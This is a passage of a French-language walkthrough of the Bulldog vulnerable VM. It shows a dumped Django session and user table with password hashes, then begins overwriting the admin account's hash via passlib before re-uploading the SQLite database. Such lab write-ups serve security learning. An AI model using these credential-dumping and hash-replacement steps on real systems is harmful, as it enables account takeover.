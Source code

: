 ```console
7toi97v6ux7duk4o9mzu7v34oiwhlexs|YjcyYTMwNzY4Mzk2MTFmMmQyYmE1MGZhMzA2MzNmYjdiODA3NGEwMDp7Il9hdXRoX3VzZXJfaGFzaCI6IjliMThhNzgyNjI4YjEzZDFhY2E4YjAwMjA3MTIwMWUxODUzNjMyMTIiLCJfYXV0aF91c2VyX2JhY2tlbmQiOiJkamFuZ28uY29udHJpYi5hdXRoLmJhY2tlbmRzLk1vZGVsQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOiI4In0=|2017-09-11 22:37:35.697643

sqlite> select * from auth_user;
id|password|is_superuser|username|first_name|last_name|email|is_staff|is_active|date_joined|last_login
1|pbkdf2_sha256$20000$9k0TYJltYWk5$rE0aQA4DGFxEjBhBH0BEJhFsF2Jx63690a8VGE/9a+c=|1|admin|||admin@bulldogindustries.com|1|1|2017-08-18 22:42:27.888865|2017-08-19 06:14:22.419010
3|pbkdf2_sha256$20000$AvMG3SPMFdWk$br74kiJcinPLKkqG+i9G+2MavMVW9IXDl2TSeQ5My+A=|0|alan||||1|1|2017-08-19 05:57:32|
4|pbkdf2_sha256$20000$LgCCwZ1qFhSK$xv2NHkto76GEp11lXNUFPsiolvoV8c8R/PRl2/XccX0=|0|william||||1|1|2017-08-19 06:02:07|
5|pbkdf2_sha256$20000$IjvfpwWo8tw9$9PZgYsZCcRz3dLVU/4TnXa9i2VcybBnBedCyNjk3Sak=|0|malik||||1|1|2017-08-19 06:02:50|
6|pbkdf2_sha256$20000$ooicdWHyxlTk$oNMBAZDKarihoPIzzYAhDq+4cR8JtJGt9JQIA8q1SX8=|0|kevin||||1|1|2017-08-19 06:03:22|
7|pbkdf2_sha256$20000$nmdkvhu3yqa9$8VSo44h9fXYj6FLavolYDZ7P5PhFBLeKBmLkBlNpGTk=|0|ashley||||1|1|2017-08-19 06:04:18|
8|pbkdf2_sha256$20000$QFeEaqreqK8o$ldGl5qhFnyB+tFrOflSwxSGO3Xt/mL4sjBiCPyPusU4=|0|nick||||1|1|2017-08-19 06:06:08|2018-01-01 00:11:00.111111
9|pbkdf2_sha256$20000$lA6iOt4XGXLw$0VHpbYjNiFN4CnHisuB+bFh72A6sn03Q+d34Laj7jkM=|0|sarah||||1|1|2017-08-19 06:06:56|2018-01-01 00:00:11.000000
```

Dommage, les cookies de session stockés en base de données ont expiré et ne peuvent être rejoués. Cela dit, il semble possible de jouer avec les mots de passe du panel Django. S'il paraît [impensable de les casser](https://www.sjoerdlangkemper.nl/2016/05/25/iterative-password-hashing/) au vu du temps de calcul que PBKDF2-HMAC-SHA256 demande, l'autre option consiste à les modifier à notre guise. Le mot de passe ciblé sera bien évidemment celui du compte admin.

## Bonus n°2 : Modification du mot de passe du compte admin Django

_Nota Bene : Django utilise un format différent de hash basé sur l'algorithme PBKDF2, PBKDF2-HMAC-SHA256, ce qui m'a fait perdre quelques heures dans la résolution de cette VM. Il faut utiliser la classe [passlib.hash.django_pbkdf2_sha256](http://passlib.readthedocs.io/en/stable/lib/passlib.hash.django_std.html#django-1-4-hashes) et non [passlib.hash.pbkdf2_sha256](http://passlib.readthedocs.io/en/stable/lib/passlib.hash.pbkdf2_digest.html), au risque d'obtenir des erreurs 500 à répétition après avoir réuploadé la nouvelle base de données SQLite3._

```console
root@blinils:~# python
Python 2.7.14+ (default, Dec  5 2017, 15:17:02) 
[GCC 7.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from passlib.hash import pbkdf2_sha256
>>> hash = pbkdf2_sha256.using(rounds=20000).hash("blinils")
>>> hash
'$pbkdf2-sha256$20000$dU7pfY8xBkCoVcrZm5Pyvg$AOBAk3cJttJtAGdjx4GrMOjO9h4ZUP0GgU4i16.I0lQ'
```
